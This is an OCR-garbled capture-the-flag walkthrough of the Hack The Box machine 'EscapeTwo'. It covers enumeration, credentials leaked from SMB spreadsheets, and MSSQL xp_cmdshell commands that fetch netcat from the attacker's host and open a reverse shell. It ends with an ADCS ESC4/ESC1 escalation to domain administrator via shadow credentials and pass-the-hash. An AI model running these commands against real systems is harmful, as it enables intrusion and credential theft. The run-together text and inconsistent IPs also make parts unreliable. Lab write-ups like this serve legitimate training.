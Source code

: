 VPN 10.10.11.51Machine InformationAs is common in real life Windows pentests, you will start this box withcredentials for the following account: rose / KxEPkKe6R8su1\. INFO: add it to /etc/hosts fileRUN: **sudo nano /etc/hosts**2\. INFO: Nmap. RUN NMAP 2 times in a row to get ALL PORTS or USEALTERNATIVE SCAN COMMAND!RUN: **sudo nmap -Pn -p- \--min-rate 2000 -sC -sV -oN nmap-scan.txtescapetwo.htb**ALTERNATIVE: **sudo nmap -Pn -p- \--min-rate 5000 \--max-rate 10000 -T4-sC -sV -oN nmap-aggressive.txt escapetwo.htb**![](images/media/image1.png){width="4.981042213473316in"height="4.962369860017498in"}3\. INFO: Get infos on HOSTS, SERVICES, SHARESINFO: account: rose / KxEPkKe6R8suRUN: **crackmapexec smb escapetwo.htb -u \"rose\" -p \"KxEPkKe6R8su\"\--rid-brute \| grep SidTypeUser**![](images/media/image2.png){width="6.227487970253718in"height="1.222840113735783in"}3.1 INFO: add DC01 to hosts fileRUN: **sudo nano /ets/hosts**![](images/media/image3.png){width="3.7061614173228348in"height="2.8889260717410323in"}4\. INFO: Try SMB first. SMB file leak! USE HYH ALTERNATIVE!!HYH ALTERNATIVE: **smbclient -L //10.10.11.51 -U rose**![](images/media/image4.png){width="5.679601924759405in"height="2.0426541994750655in"}4.1 INFO: Download accounting_2024.xlsx accounts.xlsx to KALI VM. Openfiles with LibreOFFICE or gnumeric in LINUXLogged in smb: \\\> RUN: **get accounting_2024.xlsx** (ALTERNATIVECOMMAND =\> see CN-SEC.COM solution)Logged in smb: \\\> RUN: **get accounts.xlsx** (ALTERNATIVE COMMAND =\>see CN-SEC.COM solution)RESULT: FOUND USER:PASSWORD =\> sa:MSSQLP@ssw0rd!![](images/media/image5.png){width="6.298611111111111in"height="1.113888888888889in"}Open xlsx-files with LibreOffice Calc or Gnumeric![](images/media/image6.png){width="4.402843394575678in"height="0.9482895888013998in"}4.2 WORKAROUND for xlsx-filesINFO: Check accounts.xlsx for filetypeRUN: **file accounts.xlsx RESULT: It\'s a ZIP file**NEXT: Extract sharedStrings.xml from accounts.xlsx and open it look forSA-USER and his PASSWORD![](images/media/image7.png){width="6.284027777777778in"height="1.6020833333333333in"}**FOOTHOLD**5.1 INFO: successfully login into mssql serviceRUN WORKED: **impacket-mssqlclientescapetwo.htb/sa:MSSQLP\\@ssw0rd\\!\\@10.10.11.51**![](images/media/image8.png){width="6.29375in"height="2.2083333333333335in"}**Sa**= System Administrator, **dbo**= Schema, **master**= CurrentDatabase context is master system database5.2 INFO: Check USERRUN: **xp_cmdshell whoami**![](images/media/image9.png){width="7.008729221347331in"height="0.4597156605424322in"}5.3 INFO:RUN: **enable_xp_cmdshell**![](images/media/image10.png){width="5.781990376202975in"height="0.4130905511811024in"}5.4 INFO: Check USER AGAINRUN: **xp_cmdshell whoami**![](images/media/image11.png){width="2.289099956255468in"height="0.8428215223097113in"}5.5 INFO: Download NETCAT for Windows https://github.com/int0x33/nc.exe/INFO: Upload it and get REVERSE SHELL. IMPORTANT: Start http Server onKali VM and RUN command on TARGET MACHINE (SERVER)!RUN on Kali VM: **python3 -m http.server 80**![](images/media/image12.png){width="6.288888888888889in"height="4.4125in"}RUN on SERVER: **xp_cmdshell curl 10.10.14.163/nc64.exe -oC:\\Users\\public\\nc64.exe** (Has to be done fast, otherwise STEP 5.3has to be repeated) 10.10.14.184 is Kali VM IP!5.6 INFO: Start NETCAT on Kali VMRUN on Kali VM: **nc -lvnp 9999**![](images/media/image13.png){width="2.777251749781277in"height="0.645087489063867in"}5.7 INFO: Connects from Server to Kali VM.RUN on SERVER: **xp_cmdshell C:\\Users\\public\\nc64.exe 10.10.14.1639999 -e cmd.exe**![](images/media/image14.png){width="6.29375in"height="1.7722222222222221in"}**GET USER**6\. INFO: Found another PASSWORD in **sql-Configuration.INI**, in folder**C:\\SQL2019\\ExpressAdv_ENU**7\. INFO: Switch STEP BY STEP through the directoriesRUN on SERVER: **cd C:\\**RUN on SERVER: **dir**RUN on SERVER: **cd SQL2019**RUN on SERVER: **dir**RUN on SERVER: **cd ExpressAdv_ENU**RUN on SERVER: **dir**![](images/media/image15.png){width="3.568720472440945in"height="4.727185039370079in"}7.1 INFO: Display file contentRUN on SERVER: **type sql-Configuration.INI** (displays the file in cmdterminal)![](images/media/image16.png){width="3.497630139982502in"height="2.7524081364829396in"}7.2 INFO: Search for USERS in directory of the SERVER and try thePASSWORD from STEP 7.1 to login with![](images/media/image17.png){width="4.346277340332459in"height="4.199051837270341in"}7.3 INFO: POWERSHELL remote loginRUN: evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3RUN: cd ../DesktopRUN: type user.txtHYHSOLUTION-///-PRIVILEGE_ESCALATION-//////////////////////////////////////////////////////8\. INFO: Add sequel.htb and dc01.sequel.htb to /etc/hostsRUN on SERVER: ipconfig -all8.1 INFO: DOWNLOAD JSON files (ACTIVE DIRECTORY SERVER ENVIRONMENT)RUN on Kali VM: bloodhound-python -u ryan -p \"WqSZAF6CysDQbGb3\" -dsequel.htb -ns 10.10.11.51 -c All8.2 INFO: Start DATABASE on Kali VMRUN on Kali VM: sudo neo4j console8.3 INFO: Start Bloodhound GUI and DRAG & DROP all JSON-filesStart Bloodhound: Login with credentials (previously configured, seeSTEPS in CERTIFIED VM) User: neo4j Password: as1634528.4 INFO: View rights of USER: Ryan. He has WRITE OWNER permission onUSER: CA_SVC. CA_SVC is certificate issuer8.5 INFO: CA_SVC is certificate issuer, so set owner of CA_SVC to RyanRUN on Kali VM: bloodyAD \--host \'10.10.11.51\' -d \'escapetwo.htb\' -u\'ryan\' -p \'WqSZAF6CysDQbGb3\' set owner \'ca_svc\' \'ryan\'8.6 INFO: Get Control rights. SOURCE:https://www.thehacker.recipes/ad/movement/dacl/grant-rightsIMPORTANT: IF THE FOLLOWING COMMAND IS NOT WORKING = ERROR: \[-\] Couldnot modify object, the server reports insufficient rights: 00000005:SecErr: DSID-03152E13, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0=\>\>, repeat STEP 8.5 and RERUN impacket-dacledit command !RUN: impacket-dacledit -action \'write\' -rights \'FullControl\'-principal \'ryan\' -target \'ca_svc\'\'sequel.htb\'/\"ryan\":\"WqSZAF6CysDQbGb3\"9\. INFO: ESC4 to ESC1. SOURCE:https://book.hacktricks.xyz/kr/windows-hardening/active-directory-methodology/ad-certificates/domain-persistence?fallback=trueINFO: Obtain SHADOW CREDENTIALS and NTHash.IMPORTANT: If ERROR occurs: \[-\] Could not update Key Credentials for\'ca_svc\' due to insufficient access rights: 00002098: SecErr:DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0. NEXT: REPEATSTEPS 8.5 & 8.6RUN: certipy-ad shadow auto -u \'ryan@sequel.htb\' -p\"WqSZAF6CysDQbGb3\" -account \'ca_svc\' -dc-ip \'10.10.11.51\'GOT NTHASH: \[\*\] NT hash for \'ca_svc\':3b181b914e7a9d5508ea1e20bc2b7fce10\. INFO: Download Certify.exe from GITHUBhttps://github.com/ademkanat/Certify/blob/main/Certify.exeFind a usable template, it\'s settings have to be overridden.Use Certify.exe to upload to the target machineRUN on Kali VM: evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3INFO: Upload Certify.exe to SERVERRUN on SERVER: impacket-mssqlclientescapetwo.htb/sa:MSSQLP\\@ssw0rd\\!\\@10.10.11.51RUN on SERVER: enable_xp_cmdshellRUN LOGGEDIN on POWERSHELL, on SERVER: mkdir C:\\tempRUN on SERVER: xp_cmdshell curl 10.10.14.184/Certify.exe -oC:\\Users\\public\\Certify.exe (Uploads Certify.exe to SERVER)RUN LOGGEDIN on POWERSHELL, on SERVER: C:\\temp\> ./Certify.exe find/domain:sequel.htb10\. 2nd INFO: Change directoryRUN: cd C:\\temp12\. INFO: Run Certify.exe. You can see that ca_svc has overridablepermissions for this certificate 👆, so let\'s overwrite it. (IN NEXTSTEP)RUN: .\\Certify.exe find /domain:sequel.htb13\. INFO: Override itRUN on Kali VM: KRB5CCNAME=\$PWD/ca_svc.ccache certipy-ad template -k-template DunderMifflinAuthentication -dc-ip 10.10.11.51 -targetdc01.sequel.htb14\. INFO: CERTIPY. Using ca_svc the user\'s credential hash, a Kerberosrequest is made to obtain an authentication ticket to the target system.IMPORTANT: Paste HASH 3b181b914e7a9d5508ea1e20bc2b7fce from STEP 9THIS DID NOT WORK !!!!!! =\>\>RUN on Kali VM: certipy-ad req -u ca_svc -hashes\'3b181b914e7a9d5508ea1e20bc2b7fce\' -ca sequel-DC01-CA -targetsequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upnadministrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug15\. INFO: Get the Administrator\'s hash through the certificateRUN on Kali VM: certipy-ad auth -pfx administrator_10.pfx -domainsequel.htb15.2 INFO: POWERSHELL login as ADMINISTRATOR and get USER.TXTIMPORTANT: Paste HASH you got in STEP 15RUN on KALI: evil-winrm -i 10.10.11.51 -u \"administrator\" -H\"7a8d4e04986afa8ed4060f75e5a0b3ff\"RUN on SERVER: cd ../DesktopRUN on SERVER: type root.txt